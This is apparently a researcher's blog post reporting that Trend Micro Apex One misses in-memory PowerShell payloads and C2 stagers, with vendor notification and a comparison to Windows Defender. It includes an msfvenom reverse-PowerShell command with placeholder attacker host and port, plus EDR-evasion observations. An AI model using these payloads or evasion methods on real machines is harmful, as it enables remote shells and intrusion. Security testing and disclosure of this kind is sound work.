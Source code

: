 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Bypassing Trend Micro Apex One
___________________________________

# Background
1. Apex One can be bypassed using simple or even very basic payloads that mostly reside in memory. 
2. Apex One can be bypassed using exploit tools or frameworks that have aged well beyond the point where many would logically think that most vendors would have a solution to detect their signatures, etc.

Obviously, a product like this isn't going to prevent bleeding-edge methods or techniques that are used to get around them. The same goes for customized payloads. For example, the simple reverse PowerShell script I wrote gets around Defender and AMSI in Windows 10 build 1903 as of June 7th. The art of bypassing anti-virus and EDR solutions is a whole other topic on its own that consists of individuals who know much more than I do when it comes to this type of stuff. 

Before you ask, yes I did check the settings in the administration console. I double checked, triple checked, checked a fourth time, checked again and then had a small existential crisis. Other colleagues and individuals from Trend have checked the settings. I'm sure they would have told me to shove off by now and check again if it was something on my end. 

![bms](Post%20Images/BMS.PNG)
![scs](Post%20Images/SCS.PNG)

I first notified Trend of the issues back in February. I should point out that Trend pushed out an update at a point in the process in which Apex One would successfully block anything from PowerShell Empire. However, this glimmer of hope only lasted for a short period of time before I tried again a couple of days later to test for consistency.

# Testing
I wanted to put Trend Micro's Apex One solution to the test. For the sake of testing, the scenario was set in a situation in which an attacker had some sort of access to the machine. This could be a reverse shell, recovered creds that allowed for smblogin, login through RDP, etc. Needless to say, I was a bit shocked when I discovered how trivial it was to get around it. Before I started testing, I had done enough research to know the basics or at least have a decent grasp on the thought process that went into the techniques of bypassing AV and EDR solutions. As expected, Apex was blocking anything malicious that touched the disk. However, things started going downhill when I started testing payloads that resided in memory only. Keep in mind I wasn't trying to get sophisticated or do anything advanced. All I was doing at this point was using well known and publicly available tools and frameworks and throwing them at my test machine to see if the agent would pick it up. All I wanted to do was to make sure it was stopping known payloads and tools.

### Tools and payloads that were used to bypass Apex One:
* MSFvenom: cmd/windows/reverse_powershell lhost=\<attackip\> lport=\<attakport\>
* PowerShell Empire with http listener and launcher to generate the stager
* My custom reverse PowerShell script
* A random reverse [PowerShell one-liner](https://gist.github.com/egre55/c058744a4240af6515eb32b2d33fbed3)
* SilentTrinity


# MSFVenom cmd/windows/reverse_powershell
![msfv_1](Post%20Images/KaliVM.PNG)
![msfv_2](Post%20Images/Win10Prod_LI.jpg)
![msfv_3](Post%20Images/msfvenom_payload.PNG)
![msfv_4](Post%20Images/Win10Prod_rpsh_exec.PNG)
![msfv_5](Post%20Images/msfv_bypass_LI.jpg)
![msfv_6](Post%20Images/msfv_bypass2_LI.jpg)

# Observations
As I mentioned previously, I worked with Trend to get a patch pushed out to specifically alarm on PowerShell Empire (they're still working on the MSFvenom payload). I received the patch on a specified date and it seemed like it was working. PSE was no longer receiving a callback from the target thus producing an agent that would allow me to interact with the remote host. Everything was fine and dandy until I performed the same test a couple of days later. Apex One had once again failed to alert on the C2 connection. At this time I noticed that the IP on my Kali box had changed. Was I able to bypass Apex One once more with PSE just by changing my IP? Yes, I was. To make sure I wasn't hallucinating, I had a colleague execute the stager on their machine and sure enough, I got a callback from the machine.

## PowerShell Empire

#### Round 1 (note the change of IP)
![PSE_1_1](Post%20Images/kalivm.PNG)
![PSE_1_2](Post%20Images/win10prod2_LI.jpg)
![PSE_1_3](Post%20Images/listener_stager.PNG)
![PSE_1_4](Post%20Images/pse_bypass_LI.jpg)

A few minutes later and Apex One still didn't figure out was happening.

#### Round 2 (note the change of IP)
![PSE_2_1](Post%20Images/listener_stager2.PNG)
![PSE_2_2](Post%20Images/pse_bypass2.PNG)
![PSE_2_3](Post%20Images/pse_bypass2_cmds_LI.jpg)

I came across an anomaly during testing when using the MSFvenom payload cmd/windows/reverse_powershell in conjunction with the Magic Unicorn payload generator from TrustedSec. Apex One was catching this for some reason despite being obfuscated via base64 encoding. My basic knowledge of how AV and EDR technologies work leads me to believe that the engine is building a risk rating based on several factors or attributes associated with the PowerShell code. Since the PowerShell code is obfuscated via base64 encoding, it uses this information as one factor along with several other factors to determine whether or not it is harmful or suspicious. In this case, it correctly identified that the payload generated from the Magic Unicorn payload generator is indeed malicious. The opposite seems to occur when planting the base64 encoded PowerShell payload generated from the launcher command in Empire PowerShell. I'm not so sure why it's catching one and not the other despite both payloads being encoded. Most of the other MSFVenom payloads that I've tested up to this point (windows/shell/reverse_tcp) and outputted in the formats `psh-cmd`, `hta-psh` is detected by Apex One.

# A Shocking Revelation
During testing, I needed to gather metrics from other AV and EDR solutions to compare against Apex One. Why not start with Windows Defender in the latest Windows 10 Pro build? I created an ISO build 1809 (and later 1903 after testing a trial version of CrowdStrike Falcon Prevent), installed the latest updates for the operating system and definitions for Defender. 

![winver](Post%20Images/winver.PNG)

The results shocked me, to say the least. You'd think a free, built-in AV that comes with Windows would be absolute crap, but it's quite the opposite. From my testing, Windows Defender and ASMI in build 1809 were able to block everything Apex One wasn't. It even blocked the aforementioned PowerShell oneliner from the GitHub link. 

![Github One-liner](Post%20Images/amsi_github_oneliner.PNG)

However, I was able to get around it using my custom reverse PowerShell script (this was expected) and silenttrinity. Defender and ASMI did even better in build 1903 as it stone-walled everything except my custom reverse PowerShell script. I should state that more testing will need to be done with silenttrinity as I didn't receive a message from AMSI or Defender saying something malicious was going on. However, I received an error message telling me that the PowerShell stager with the embedded interpreter for the Boo lang payload and the MSBuild.xml stager failed to build correctly. This could be due to changes in the Windows operating system itself in build 1903 or changes in PowerShell and the .NET framework. Furthermore, to rule out the environment as being the culprit of the issues with Apex One, I decided to unload and remove the Apex agent from a production workstation that wasn't important, let Defender take over and perform the same tests. Again, Defender stopped what Apex One couldn't.

# (06-11-19)
* The majority of the payloads that I've created or generated and that have touched the disk were detected as they should be.
* By mere observation, it looks like Trend is having trouble detecting malicious code that runs in memory and in some way interacts with the .NET framework via PowerShell, C#, etc.
* Furthermore, the current factors or attribute flags used to help the engine determine whether or not this code is malicious are simply not sufficient enough in **my opinion**.
* Microsoft's Windows Defender via the latest Windows 10 build is a much better solution at this time.
